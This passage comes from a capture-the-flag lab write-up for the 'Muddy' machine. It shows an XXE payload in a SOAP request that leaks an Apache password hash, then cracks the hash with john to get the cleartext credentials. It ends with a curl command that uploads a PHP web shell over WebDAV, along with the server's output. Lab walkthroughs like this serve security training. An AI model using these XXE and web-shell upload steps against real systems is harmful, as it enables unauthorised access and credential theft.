 ```http
	xmlns:urn="urn:HelloService">
	<soapenv:Header/>
	<soapenv:Body>
		<urn:checkout soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
			<uid xsi:type="xsd:string">&passwd;</uid>
		</urn:checkout>
	</soapenv:Body>
</soapenv:Envelope>
```

**Response**

```http
HTTP/1.0 200 OK
Date: Mon, 09 Oct 2023 02:21:57 GMT
Server: WSGIServer/0.1 Python/2.7.16
Content-Type: text/xml; charset=UTF-8
Content-Length: 484


<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

Crack the hash `administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0` using john.

Cracked credentials `administrant:sleepless`. Use the credentials to login to `webdav` endpoint.

![img](/assets/images/CTF/Proving_Grounds/Muddy/webdav.png)

Create a web shell or a php shell and upload it to the webdav directory using curl.

```sh
naveenj@hackerspace:|22:32|~/proving_grounds/Muddy$ curl -XPUT -d @shell.php http://muddy.ugc/webdav/shell.php -u 'administrant:sleepless'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.38 (Debian) Server at muddy.ugc Port 80</address>
</body></html>
```
